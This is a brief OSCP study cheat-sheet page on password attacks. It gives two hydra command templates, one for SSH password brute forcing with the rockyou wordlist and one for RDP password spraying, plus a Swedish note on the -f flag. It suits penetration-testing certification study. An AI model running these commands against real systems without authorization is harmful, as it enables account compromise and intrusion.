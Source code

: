 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/7-password-attacks/1-ssh-and-rdp-attacks/"}
---
```


### SSH Password Brute Force:
```bash
sudo hydra -l <username> -P /usr/share/wordlists/rockyou/rockyou.txt -s <port> ssh://<ip>
```

### RDP Password Spray:
```bash
sudo hydra -L /usr/share/wordlists/dirb/others/names.txt -p "<password>" rdp://<ip>
```

-f = stoppar efter första hittade inloggningen
